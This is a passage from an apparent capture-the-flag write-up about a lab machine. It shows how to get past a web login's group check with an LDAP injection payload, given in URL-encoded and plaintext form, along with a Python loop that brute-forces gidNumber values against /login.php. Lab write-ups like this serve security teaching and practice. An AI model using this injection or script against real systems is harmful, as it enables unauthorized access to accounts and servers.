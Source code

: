                 <input type="OTP" class="form-control" id="inputOTP" name="inputOTP" placeholder="One Time Password">
                <!-- we'll change the schema in the next phase of the project (if and only if we will pass the VA/PT) -->
              </div>
            </div>
            <div class="form-group row">
              <div class="col-sm-10">
                <button type="submit" class="btn btn-primary  name="submit" value="Submit">Submit</button>
              </div>
            </div>
          </form>
          ...
          ```

        __NOTE(S)__:
        - An error message pops up when fuzzing the `inputCmd`'s input:
          - REQUEST: `inputCmd=test`
          - RESPONSE: `<div class="col-sm-10">User must be member of root or adm group and have a registered token to issue commands on this server</div>`
        - There was a `gidNumber` attribute when I was bruteforcing used attributes.
          - `root` and `adm` has group numbers __0__ and __4__ respectively
          - Maybe `ldapuser`'s group number could be added to the check done by __*/page.php*__
          - Maybe the group restriction could be bypassed by passing an LDAP injection as a username.

   3. Login again with an injected LDAP payload:
      - Credentials for __*/login.php*__:

        USERNAME | PASSWORD
        --- | ---
        ldapuser%29%29%28%7C%28gidNumber%3A2.5.13.14%3A%3D1000 | Generate an OTP using `stoken`

        __NOTE(S)__:
        - PLAINTEXT: `ldapuser))(|(gidNumber:2.5.13.14:=1000`
        - system users have group numbers __*starting*__ from __1000__
          - Run using `python3`:
            ```py
            import requests as r
            import urllib.parse as u

            for i in range(1000, 1050):
                ldap_injection = "ldapuser))(|(gidNumber:2.5.13.14:=%d" % (i)
                data = { "inputUsername": u.quote(ldap_injection) }
                req = r.post("http://10.10.10.122/login.php", data=data)

                if "Cannot login" in req.text: break

            print("[x] ldapuser's gidNumber : " + str(i))
            ```
          - `[x] ldapuser's gidNumber : 1000`
        - An OR statement to include `ldapuser`'s group number to the check was added
        - `gidNumber:2.5.13.14:=1000`
          - According to Microsoft, `gidNumber` has an [Enumeration Syntax](https://docs.microsoft.com/en-us/windows/desktop/adschema/s-enumeration)
          - __Enumeration__ has the ability to use [Matching Rules](https://ldap.com/matching-rules/)
            ```
            Integer Matching
            ...
            integerMatch (OID 2.5.13.14): An equality matching rule that will consider two integer values 
            equivalent if they represent the same number.
            ```
        - __*The group restriction no longer applies*__

---